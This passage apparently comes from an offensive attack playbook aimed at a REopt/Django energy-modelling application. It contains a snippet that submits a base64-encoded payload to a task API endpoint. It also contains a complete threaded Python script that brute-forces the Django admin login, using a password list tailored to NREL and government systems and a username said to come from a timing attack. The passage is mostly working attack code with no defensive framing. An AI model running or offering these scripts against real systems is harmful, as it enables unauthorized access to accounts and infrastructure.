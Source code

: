 ```python

# Or via API if there's a task submission endpoint
import requests
import base64

r = requests.post("http://localhost:8000/api/v1/tasks", json={
    "task": "reopt.tasks.optimize",
    "args": base64.b64encode(payload).decode()
})
```

---

### 4.5 Django Admin Brute Force

**If all else fails, try brute-forcing the admin panel:**

```python
# admin_bruteforce.py
import requests
from concurrent.futures import ThreadPoolExecutor
import itertools

target = "http://localhost:8000/admin/login/"
username = "admin"  # From timing attack

# Common weak passwords for government/research systems
passwords = [
    "admin", "password", "Password1", "Admin123",
    "nrel2023", "NREL2023", "Reopt123", "Energy2023",
    "Welcome1", "Password123!", "AdminPassword123!",
    # Add more from wordlists
]

def try_login(username, password):
    session = requests.Session()
    r = session.get(target)
    csrf = session.cookies.get('csrftoken')

    r = session.post(target, data={
        'username': username,
        'password': password,
        'csrfmiddlewaretoken': csrf,
    }, allow_redirects=False)

    if r.status_code == 302 and '/admin/' in r.headers.get('Location', ''):
        return True, password
    return False, None

print(f"[*] Brute-forcing admin panel for user: {username}")
with ThreadPoolExecutor(max_workers=5) as executor:
    futures = [executor.submit(try_login, username, pwd) for pwd in passwords]

    for future in futures:
        success, password = future.result()
        if success:
            print(f"\n[+] LOGIN SUCCESSFUL!")
            print(f"[+] Credentials: {username}:{password}")
            break
```

---